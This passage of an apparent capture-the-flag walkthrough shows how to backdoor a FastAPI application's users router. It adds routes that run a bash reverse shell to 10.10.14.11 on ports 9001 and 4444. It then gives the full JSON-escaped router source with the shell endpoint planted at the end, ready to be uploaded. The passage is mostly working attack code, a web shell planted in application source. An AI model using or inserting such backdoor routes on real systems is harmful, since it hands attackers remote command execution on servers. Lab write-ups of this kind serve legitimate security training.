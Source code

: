 ```
@router.delete("/ShellMe", status_code=200)
def fetch_shell() -> Any:
    """
    Sends a reverse shell
    """
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'")
    return
```
- Now we have to take the whole script and escape it in json we can do this with [this website](https://www.freeformatter.com/json-escape.html#ad-output) and we get our new script:
```
from typing import Any, Optional\r\nfrom uuid import uuid4\r\nfrom datetime import datetime\r\n\r\n\r\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\r\nfrom fastapi.security import OAuth2PasswordRequestForm\r\nfrom sqlalchemy.orm import Session\r\n\r\nfrom app import crud\r\nfrom app import schemas\r\nfrom app.api import deps\r\nfrom app.models.user import User\r\nfrom app.core.security import get_password_hash\r\n\r\nfrom pydantic import schema\r\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\r\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\r\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\r\n    else:\r\n        return original_field_schema(field, **kwargs)\r\n\r\noriginal_field_schema = schema.field_schema\r\nschema.field_schema = field_schema\r\n\r\nfrom app.core.auth import (\r\n    authenticate,\r\n    create_access_token,\r\n)\r\n\r\nrouter = APIRouter()\r\n\r\n@router.get(\"\/{user_id}\", status_code=200, response_model=schemas.User)\r\ndef fetch_user(*, \r\n    user_id: int, \r\n    db: Session = Depends(deps.get_db) \r\n    ) -> Any:\r\n    \"\"\"\r\n    Fetch a user by ID\r\n    \"\"\"\r\n    result = crud.user.get(db=db, id=user_id)\r\n    return result\r\n\r\n\r\n@router.put(\"\/{user_id}\/edit\")\r\nasync def edit_profile(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.UserUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Edit the profile of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.put(\"\/{user_id}\/password\")\r\nasync def edit_password(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.PasswordUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Update the password of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.post(\"\/login\")\r\ndef login(db: Session = Depends(deps.get_db),\r\n    form_data: OAuth2PasswordRequestForm = Depends()\r\n) -> Any:\r\n    \"\"\"\r\n    Get the JWT for a user with data from OAuth2 request form body.\r\n    \"\"\"\r\n    \r\n    timestamp = datetime.now().strftime(\"%m\/%d\/%Y, %H:%M:%S\")\r\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\r\n    if not user:\r\n        with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\r\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\r\n    \r\n    with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\r\n\r\n    return {\r\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\r\n        \"token_type\": \"bearer\",\r\n    }\r\n\r\n@router.post(\"\/signup\", status_code=201)\r\ndef create_user_signup(\r\n    *,\r\n    db: Session = Depends(deps.get_db),\r\n    user_in: schemas.user.UserSignup,\r\n) -> Any:\r\n    \"\"\"\r\n    Create new user without the need to be logged in.\r\n    \"\"\"\r\n\r\n    new_user = schemas.user.UserCreate(**user_in.dict())\r\n\r\n    new_user.guid = str(uuid4())\r\n\r\n    user = db.query(User).filter(User.email == new_user.email).first()\r\n    if user:\r\n        raise HTTPException(\r\n            status_code=400,\r\n            detail=\"The user with this username already exists in the system\",\r\n        )\r\n    user = crud.user.create(db=db, obj_in=new_user)\r\n\r\n    return user\r\n\r\n@router.get(\"\/shell\", status_code=200)\r\ndef fetch_user() -> Any:\r\n    \"\"\"\r\n    Sends a reverse shell\r\n    \"\"\"\r\n    os.system(\"bash -c 'bash -i >& \/dev\/tcp\/10.10.14.11\/4444 0>&1' \")\r\n    return
```
